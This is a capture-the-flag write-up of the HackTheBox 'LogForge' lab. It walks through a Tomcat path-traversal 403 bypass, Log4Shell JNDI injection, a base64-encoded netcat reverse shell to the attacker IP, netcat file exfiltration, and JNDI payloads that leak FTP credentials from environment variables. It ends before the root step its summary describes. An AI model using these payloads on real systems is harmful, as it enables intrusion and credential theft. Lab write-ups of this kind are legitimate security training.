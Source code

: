 ## HTB Logforge (Medium) - Writeup

Difficulty: Medium

Discovered a Tomcat server with a /manager panel, accessed via a 403 bypass using a path traversal trick.  
Identified and exploited Log4Shell by injecting a JNDI payload in a logged parameter, leading to RCE.  
Gained a reverse shell using a serialized CommonsCollections gadget via JNDI Exploit Kit.  
Escalated to root by exfiltrating environment variables through Log4j to retrieve FTP credentials, then SSH’ed in with a leaked private key.  

---

## Nmap 

#### The nmap scan revealed two open and two filtered ports:  

![obraz](https://github.com/user-attachments/assets/0ece98b9-cef6-4d45-a3a3-f90b4ee531e8)



## Port 80 - Website  

The website consists solely of a static image, with no interactive or visible functionality.  

![obraz](https://github.com/user-attachments/assets/d312d04b-86a8-4f03-8c27-6f5f9e1c7776)  

Running Feroxbuster revealed the /admin directory, which returns a 403 Forbidden error.  

![obraz](https://github.com/user-attachments/assets/5a2e7c4a-5b0f-4ec1-aaca-9911d45f078e)

It also revealed that the website is running tomcat because of directories like /manager.  

We can check the headers with curl:  
```
curl -I http://10.10.11.138/
```
![obraz](https://github.com/user-attachments/assets/fbdeb2ba-365e-4216-ab4a-7fc06120e697)

It returns with Java cookie which indicates that backend is written in Java.  
Tomcat is also written in Java meaning it's another hint.  
We can re-run feroxbuster with additional extensions and different list:  
```
feroxbuster --url http://10.10.11.138/ -x js,jsp,java,xml -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![obraz](https://github.com/user-attachments/assets/6da9c81a-f398-4eac-be41-438626053592)

It found index.jsp but nothing more of interest.  



## 403 bypass trick

If we go to /manager we get 403 access denied.  
There is a report written by Orange Tsai that is a must read if you didn't do it already:  
```
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
```
I'll paste the part about tomcat here:  

![obraz](https://github.com/user-attachments/assets/815b0036-d80d-4262-814f-d6d2a8c43d4c)

It bypasses Tomcat’s path parsing and normalization logic.  

We can now access:  
```
http://<ip>/x/..;/manager
```
Luckily for us default credentials worked
+  tomcat:tomcat

![obraz](https://github.com/user-attachments/assets/a3030bff-0336-4526-89c6-a23499c5101e)



## Log4Shell - exploitation  

Given the name of the box there might be a log4shell vulnerability.  
There is an application /UHC{BadWayToBlockTomcat}  
We can click on expire and catch a request with burpsuite:  

![obraz](https://github.com/user-attachments/assets/35653c2b-6171-4198-83aa-deefeb5ad9be)

There is only one parameter called "idle", we can try basic log4shell payload to test if that's a case here.  
For it to work we must put a paylod in the field that will be logged by log4j java library.  
```
{% raw %} idle=${jndi:ldap://10.10.14.5/x}  {% endraw %}
```
And start tcpdump to listen for pings:  

![obraz](https://github.com/user-attachments/assets/995635a4-df56-4f8f-b3cf-4bdd462f0263)

![obraz](https://github.com/user-attachments/assets/665c180b-521b-4747-b257-f2cbfc9a9d85)

It works, now we want to get shell access.  
I had many problems with getting this shell.  
First I tried to run python server and marshalsec-jar ldap server but it couldn't redirect to my python server.  
Then I tried creating .ser paylod with ysoserial and running JNDI EXPLOIT KIT but it didin't work either.  
Finally the thing that worked was creating a payload directly in JNDI EXPLOIT KIT.  
In order to exploit this we need JNDI EXPLOIT KIT:  
```
git clone https://github.com/pimps/JNDI-Exploit-Kit.git 
mvn clean package -DskipTests
cd target
```
Then run it:  
```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```
Now run a special query to create a payload and run it:  
```
{% raw %}  ${jndi:ldap://10.10.14.5:1389/serial/CommonsCollections5/exec_unix/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pICAyPiYxfG5jIDEwLjEwLjE0LjUgIDkwMDUgPi90bXAvZg==} {% endraw %}
```
It failed with most of the payloads but the one we used and succeed was:  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i  2>&1|nc 10.10.14.5  9005 >/tmp/f
```
In final payload we had to base64 encode it:  

![obraz](https://github.com/user-attachments/assets/21269274-b002-4327-9ce2-2b0b16194190)

It then gets to our server:  

![obraz](https://github.com/user-attachments/assets/1ba06685-e2e7-4653-bcf0-c88455d0f991)

And finally gives us a shell access:  

![obraz](https://github.com/user-attachments/assets/1f97c494-ae4c-4cd8-b974-5a46369af3af)



## Priv Esc

First we can retrieve a flag:  

![obraz](https://github.com/user-attachments/assets/ec491b2e-a816-4008-afaf-cc7e90cbf557)

There is a file ftpServer-1.0-SNAPSHOT-all.jar we can move it with netcat:  
```
Attacker:  
nc -nvlp 80 > ftpServer-1.0-SNAPSHOT-all.jar

Target:    
nc -w 3 10.10.14.5 80 < ftpServer-1.0-SNAPSHOT-all.jar
```

![obraz](https://github.com/user-attachments/assets/f40be02c-0e19-472e-bb6c-607ed71a4bcb)

![obraz](https://github.com/user-attachments/assets/e8255198-0ede-47e1-88cd-144e0d41b838)


To reverse engineer java files we can use jd-gui:  

![obraz](https://github.com/user-attachments/assets/0301bf26-20e8-4a05-81fd-95b4083759a0)

After looking through code we found credentials as two environment variables being set:  

![obraz](https://github.com/user-attachments/assets/bdce03e3-d03b-4656-8cef-c7725411091d)

In the username parameter it uses log4j library:  

![obraz](https://github.com/user-attachments/assets/1cb1e8a1-6d7a-45cf-9896-685d5bb6cf9e)

It means that we can connect to ftp and in the username parameter put JNDI payload like we did in the website to get a shell access.  
For it to work we need to start jdni exploit kit server as before.  
Then log into ftp on the target machine twice and use following payloads:  
```
{% raw %} ${jndi:ldap://10.10.14.5:1389/${env:ftp_user}} 
${jndi:ldap://10.10.14.5:1389/${env:ftp_password}} {% endraw %}
````












































































